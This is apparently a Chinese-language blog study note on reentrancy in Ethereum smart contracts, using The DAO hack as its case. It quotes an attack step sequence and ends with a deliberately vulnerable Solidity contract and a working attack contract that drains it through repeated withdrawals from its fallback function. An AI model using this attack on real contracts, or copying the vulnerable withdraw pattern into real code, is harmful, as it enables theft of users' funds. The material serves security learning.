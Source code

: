```yaml
---
title: "#DASP# Reentrancy (1)"
date: 2018-07-20 09:51:56
tags: ["BlockChain", "DASP"]
categories: ["区块链"]
---
```


## 0x00 Info

从本篇开始学习智能合约漏洞，依据[DASP TOP10](https://www.dasp.co)。

<!-- more -->

## 0x01 DAO

**History**:  
* [The History of the DAO](https://blog.slock.it/the-history-of-the-dao-and-lessons-learned-d06740f8cfa5)

**WhitePaper**:  
* [WhitePaper](https://download.slock.it/public/DAO/WhitePaper.pdf)
* [白皮书](https://ethfans.org/posts/the-dao-whitepaper)

**OpenSource**:  
* [Github](https://github.com/slockit/dao)
* [etherscan](https://etherscan.io/address/0xbb9bc244d798123fde783fcc1c72d3bb8c189413#code)

### 概念理解

众筹合约，通过资金ETH换取DAO token，从而获得投票和发起议案的权利，按一定规则回馈给投资人投资项目的收益。
因此，The DAO特点：
* 本质是个VC，通过以太坊筹集的资金（ETH）锁定在智能合约中，通过**代码**主导！
* 出资ETH获取对应DAO代币，具有审查项目、投票表决和提出投资项目议案的权利
* 投资议案由全体代币持有人投票表决，一币一票，票数通过，投资项目可获得相应投资额。利用“众智”+出资额权重决定投资策略（取代传统行业投资经理）。
* 投资项目的收益按规则回馈股东。

### The DAO is attacked

[the-dao-the-hack-the-soft-fork-and-the-hard-fork](https://www.cryptocompare.com/coins/guides/the-dao-the-hack-the-soft-fork-and-the-hard-fork/)

```
+------------------------+  3.5M ETH lose   +-----------+  DoS vul   +-----------+
| antipattern (withdrew) | ---------------> | soft fork | ---------> | hard fork |
+------------------------+                  +-----------+            +-----------+
```


[security-alert-dos-vulnerability-in-the-soft-fork](https://blog.ethereum.org/2016/06/28/security-alert-dos-vulnerability-in-the-soft-fork/)

## 0x02 Reentrancy

### solidity基础知识

**合约调用**

1. message call
```solidity
bytes4 funcIdentifier = bytes4(keccak256("FuncName(paramType)"));
this.call(funcIdentifier, paramValue);
```

2. contract object
```solidity
Contract1 c = Contract1(AddressOfContract1);  
c.foo();
```

**限制**

  * 例如send花费2300gas
  * 递归调用栈最大1024层

**转币**

```solidity
1. <address>.transfer()    //失败抛出throw且回滚，2300gas
2. <address>.send()    //失败返回false，2300gas
3. <address>.gas().call.vale()()    //失败返回false，所有gas
```

**fallback**

[Solidity的fallback函数](http://me.tryblockchain.org/blockchain-solidity-fallback.html)

```solidity
contract SimpleFallback{
  function(){
    //fallback function
  }
}
```

两种情况会调用fallback：
1. 调用函数找不到时
2. 向合约发送ether时


### reentrancy & The DAO

DASP TOP10中reentrancy的描述：[dasp](https://www.dasp.co/#item-1)

reentrancy原型为[Race-To-Empty](https://vessenes.com/more-ethereum-attacks-race-to-empty-is-the-real-deal/)，其中就已经介绍了**重置资产**放在**转币**操作后的漏洞。

其中最典型的攻击案例为The DAO。对于The DAO的漏洞分析及利用exp & demo网上一大堆，这里就不ctrlcv了。
> 建议结合源码一起看，并使用本地（truffle+testrpc or geth testnet）或者在线的remix编译环境上手实践。

可以首先看看中文分析：
* [区块链安全 - DAO攻击事件解析](https://paper.seebug.org/544/)
* [以太坊智能合约安全入门](https://paper.seebug.org/601/)

推荐Phil Daian分析：
* [Analysis of the DAO exploit](http://hackingdistributed.com/2016/06/18/analysis-of-the-dao-exploit/)

{{< admonition quote >}}
attack steps:
  1. Propose a split and wait until the voting period expires. (DAO.sol, createProposal)
  2. Execute the split. (DAO.sol, splitDAO)
  3. Let the DAO send your new DAO its share of tokens. (splitDAO -> TokenCreation.sol, createTokenProxy)
  4. Make sure the DAO tries to send you a reward before it updates your balance but after doing (3). (splitDAO -> withdrawRewardFor -> ManagedAccount.sol, payOut)
  5. While the DAO is doing (4), have it run splitDAO again with the same parameters as in (2) (payOut -> _recipient.call.value -> _recipient())
  6. The DAO will now send you more child tokens, and go to withdraw your reward before updating your balance. (DAO.sol, splitDAO)
  7. Back to (5)!
  8. Let the DAO update your balance. Because (7) goes back to (5), it never actually will :-).
{{< /admonition >}}

其中最关键的就是第4步，splitDAO -> withdrawRewardFor -> payOut，其中payOut使用_recipient.call.value(_amount)()转币，而splitDAO函数中资产重置是放在withdrawRewardFor函数后，造成漏洞。

demo & exp：
* [SimpleDAO attack](http://blockchain.unica.it/projects/ethereum-survey/attacks.html#simpledao)
* [reentrancy exp](https://github.com/trailofbits/not-so-smart-contracts/tree/master/reentrancy)

其他合约中的reentrancy漏洞：[CityMayor](https://blog.citymayor.co/posts/how-someone-tried-to-exploit-a-flaw-in-our-smart-contract-and-steal-all-of-its-ether/)

{{< admonition note >}}
特别注意此篇中的分析思路及工具[porosity](https://github.com/comaeio/porosity)/[etherscan](https://etherscan.io/)
{{< /admonition >}}

---

**漏洞合约：**
```solidity
contract vulnerable_DAO{
    mapping(address=>uint) userBalances;
    
    function vulnerable_DAO() payable {
    }
    
    function getUserBalance(address user) constant returns(uint) {
        return userBalances[user];
    }
    
    function addToBalance() payable {
        userBalances[msg.sender] += msg.value;
    }
    
    function withdrawBalance() {
        uint amountToWithdraw = userBalances[msg.sender];
        if(msg.sender.call.value(amountToWithdraw)() ==false) {
            throw;
        }
        userBalances[msg.sender] = 0;
    }
    
    function getBalance() returns(uint) {
        return this.balance;
    }
}
```

**攻击利用合约：**
```solidity
contract Attack {
    address vulnerable_contract;
    uint attackCount;
    address public owner;
    
    function Attack() public{
        attackCount = 2;
        owner = msg.sender;
    }
    
    function() payable{
        while(attackCount>0) {
            attackCount--;
            require(vulnerable_contract.call(bytes4(keccak256("withdrawBalance()"))));
        }
    }
    
    function deposit(address _vulnerable_contract) public payable{
        vulnerable_contract = _vulnerable_contract;
        require(vulnerable_contract.call.value(msg.value)(bytes4(keccak256("addToBalance()"))));
    }
    
    function withdraw(){
        require(vulnerable_contract.call(bytes4(keccak256("withdrawBalance()"))));
    }
    
    function getBalance() returns(uint) {
        return this.balance;
    }
}
```